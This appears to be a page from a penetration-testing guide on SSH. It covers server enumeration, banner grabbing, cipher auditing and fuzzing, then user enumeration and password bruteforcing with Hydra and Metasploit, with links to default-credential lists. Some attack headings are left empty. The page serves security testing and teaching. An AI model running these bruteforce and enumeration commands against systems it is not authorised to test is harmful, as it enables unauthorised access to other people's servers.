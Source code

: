 # 🛠️ SSH

## Theory

The SSH protocol \(Secure Shell\) is used to login from one machine to another securely. It offers several options for strong authentication, as it protects the connections and communications security and integrity with strong encryption. This connection can be used for terminal access, file transfers, and for tunneling other applications.

## Enumeration

### Authentication type

It is possible to enumerate the allowed authentication types with the following command:

```bash
ssh -v <IP>
OpenSSH_8.1p1, OpenSSL 1.1.1d  10 Sep 2019
...
debug1: Authentications that can continue: publickey,password,keyboard-interactive
```

### Banner Grabbing

Useful to get basic information about the SSH server such as its type and version.

```bash
nc -vn <IP> 22
...
SSH-2.0-OpenSSH_7.4p1 Debian-10+deb9u7
```

### Server's public SSH key

```bash
ssh-keyscan -t rsa <IP> -p <PORT>
```

### Weak Cipher Algorithms

Some auditing tools can help to quikly find the target version and which algorithms are available on the server in order to give recommendations to the customer.

{% tabs %}
{% tab title="sslscan" %}
```bash
sslscan <IP>:22
```
{% endtab %}

{% tab title="nmap" %}
```bash
nmap -p22 -n -sV --script ssh2-enum-algos <IP>
```
{% endtab %}

{% tab title="ssh-audit" %}
```bash
ssh-audit -p 22 -4 <IP>
```
{% endtab %}
{% endtabs %}

### SSH fuzzing

Fuzzing the SSH service could help to find vulnerabilities. The automated fuzzing is simple but not very targeted so it usually takes a lot of time and could miss some results.  
The custom and the manual approach is more effective but it takes time to familiarize yourself with the target. Here is an example of a custom fuzzing : [Fuzzing the OpenSSH daemon using AFL](https://github.com/ShutdownRepo/Penetration-Testing-Guides/tree/5140c07692d27c9b3162088ed3aeff1bbbf23d23/servers/abusing-services/www.vegardno.net/2017/03/fuzzing-openssh-daemon-using-afl.html).

{% tabs %}
{% tab title="Automated fuzzing" %}
```bash
msfconsole
use auxiliary/fuzzers/ssh/ssh_version_2
set RHOSTS <IP>
run
```
{% endtab %}
{% endtabs %}

## Attacks

### Weak cryptographic keys

### Authentication bruteforcing

#### User enumeration

```bash
msfconsole
use scanner/ssh/ssh_enumusers
set RHOSTS <IP>
set USER_FILE <user_file_path>
```

#### Password Bruteforcing

{% tabs %}
{% tab title="Hydra" %}
```bash
hydra -l <user> -s 22 -P <path_pass_list> <IP> -t 4 ssh
```
{% endtab %}

{% tab title="Metasploit" %}
```bash
msfconsole
use auxiliary/scanner/ssh/ssh_login
set PASS_FILE /usr/share/wordlists/password/rockyou.txt
set RHOSTS <IP>
set STOP_ON_SUCCESS true
set username <USER>
run
```
{% endtab %}
{% endtabs %}

Some common ssh credentials [here ](https://github.com/danielmiessler/SecLists/blob/master/Passwords/Default-Credentials/ssh-betterdefaultpasslist.txt)and [here](https://github.com/danielmiessler/SecLists/blob/master/Passwords/Common-Credentials/top-20-common-SSH-passwords.txt).

#### Private key Bruteforcing

## References

{% embed url="https://book.hacktricks.xyz/pentesting/pentesting-ssh" caption="" %}

{% embed url="https://community.turgensec.com/ssh-hacking-guide/" caption="" %}

